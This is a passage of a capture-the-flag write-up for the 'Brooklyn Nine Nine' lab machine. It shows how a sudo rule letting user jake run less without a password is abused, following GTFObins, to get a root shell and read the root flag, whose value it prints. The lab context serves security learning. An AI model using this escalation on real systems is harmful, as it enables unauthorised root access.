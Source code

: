 ## Privilege Escalation

For [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) we first check sudo commands for user jake :

```
└─$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less

```

we can see we have sudo for **[Less](../../3%20-%20Tags/Hacking%20Concepts/Less.md)** .

### GTFObins

Using [GTFObins](../../3%20-%20Tags/Hacking%20Tools/GTFObins.md) we search for SUDO - less :

![af573d8a895fa379e07c75476177ef3e.png](../../2%20-%20Resources/Others/Flameshots/af573d8a895fa379e07c75476177ef3e.png)

we paste the command in our terminal and confirm with enter :

```
jake@brookly_nine_nine:~$ sudo less /etc/profile

# whoami
root
# 

```

and we search for flag :

```
# cat /root/root.txt                           
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!

```
